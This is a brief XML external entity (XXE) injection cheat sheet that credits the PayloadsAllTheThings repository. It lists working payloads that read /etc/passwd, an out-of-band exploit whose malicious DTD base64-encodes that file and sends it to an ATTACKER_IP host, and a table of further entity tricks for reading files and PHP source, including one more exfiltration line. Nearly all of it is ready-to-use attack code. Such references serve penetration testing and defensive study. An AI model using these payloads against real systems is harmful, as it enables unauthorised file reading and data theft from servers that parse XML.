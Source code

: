 ## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### In-Band XXE Injection Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>

### Out-of-Band XXE Injection Example Payload:

      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
      <upload><file>&xxe;</file></upload>

### Create a payload named sample.dtd with the code below:

      <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
      <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
      %oobxxe;

### Final OOB Payload:

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
      <upload>
    <file>&exfil;</file>
      </upload>

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
